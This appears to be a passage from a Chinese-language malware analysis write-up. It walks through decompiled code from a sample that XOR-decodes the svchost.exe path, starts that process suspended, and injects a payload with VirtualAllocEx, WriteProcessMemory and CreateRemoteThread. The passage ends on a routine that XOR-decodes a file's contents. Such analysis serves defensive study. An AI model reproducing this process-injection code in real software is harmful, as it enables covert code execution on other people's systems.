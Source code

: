 自解密后拼接生成字符串C:\\\\Windows\\\\SysWOW64\\\\svchost.exe

```C
 for ( kk = 0; kk < strlen(aRwbinruDyd); ++kk )
    aRwbinruDyd[kk] ^= 1u;
  lstrcatA(pszPath, aRwbinruDyd);
```

创建进程svchost.exe并进行注入

```C
 if ( CreateProcessA(0, pszPath, 0, 0, 0, 4u, 0, 0, v11, v13) )
  {
    v14 = (char *)VirtualAllocEx(v13->hProcess, 0, 0x2000u, 0x3000u, 0x40u);
    if ( v14
      && (!WriteProcessMemory(v13->hProcess, v14, Buffer, 0x34u, &NumberOfBytesWritten)
       || !WriteProcessMemory(
             v13->hProcess,
             v14 + 52,
             sub_6E14E0,
             (char *)sub_6E15F0 - (char *)sub_6E14E0,
             &NumberOfBytesWritten)) )
    {
      GetLastError();
      return VirtualFree(v14, 0x2000u, 0x4000u);
    }
  }
  else
  {
    v14 = (char *)NumberOfBytesWritten;
  }
  RemoteThread = CreateRemoteThread(v13->hProcess, 0, 0, (LPTHREAD_START_ROUTINE)(v14 + 52), v14, 0, 0);
  return WaitForSingleObject(RemoteThread, 0xFFFFFFFF);
}
```

对v13-&gt;hProcess 指向的进程进行附加，并跳转到WriteProcessMemory注入内存的位置

![](https://shs3.b.qianxin.com/attack_forum/2024/12/attach-f50eb2666efb35e4cf269cc6dd91f9bddb5874e8.png)

得到一个字符串

![](https://shs3.b.qianxin.com/attack_forum/2024/12/attach-9a52a9a2b835449502e438db33dc43d3160fb322.png)

对文件进行读取，同时对文件内容进行异或0x9

```C
int __stdcall sub_B30034(int a1)
{
  int (__stdcall *CreateFileA)(int, int, int, _DWORD, int, int, _DWORD); // eax
  int v2; // ebx
  int v3; // edi
  unsigned int v5; // ecx
  int v6; // edi
  int v7; // eax
  int v8; // [esp-4h] [ebp-3Ch]
  char v9[36]; // [esp+Ch] [ebp-2Ch] BYREF
  int v10; // [esp+30h] [ebp-8h]
  int v11; // [esp+34h] [ebp-4h] BYREF

  memset(v9, 0, sizeof(v9));
  CreateFileA = *(int (__stdcall **)(int, int, int, _DWORD, int, int, _DWORD))a1;
  v2 = a1 + 20;
  v11 = 0;
  v3 = CreateFileA(a1 + 20, -1073741824, 1, 0, 3, 128, 0);
  v10 = v3;
```